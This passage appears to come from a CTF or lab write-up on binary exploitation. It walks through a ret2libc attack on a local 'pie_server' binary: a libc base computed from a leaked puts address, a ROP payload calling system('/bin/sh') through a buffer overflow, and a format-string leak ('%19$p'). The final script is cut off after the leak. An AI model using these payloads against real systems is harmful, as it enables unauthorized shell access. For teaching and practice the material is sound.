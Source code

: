 ```
pwndbg> x 0x7ffff7e3c820 - 0x77820
0x7ffff7dc5000: 0x464c457f
```

Next Step is to search all the functions needed and overflow the buffer to execute commands.

```python
libc_address = got_puts - 0x77820
system = libc_address + 0x4c330
binsh = libc_address + 0x196031
exit = libc_address + 0x3e590

info("libc Base: %#x", libc_address)
info("System: %#x", system)
info("/bin/sh: %#x", binsh)
info("Exit: %#x", exit)

payload = flat(
  padding * b'A',
  pop_rdi,
  binsh,
  system
)

io.sendline(payload)
io.interactive()
```

If we don't have he libc library to search the offset we can use [https://libc.blukat.me](https://libc.blukat.me) to search which library is using and the other ofsets.


![Blukat](/hackingnotes/images/blukat.png)



Final exploit:

```
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
piebase
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './pie_server'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

io = start()
io.sendlineafter(b':', '%19$p')
```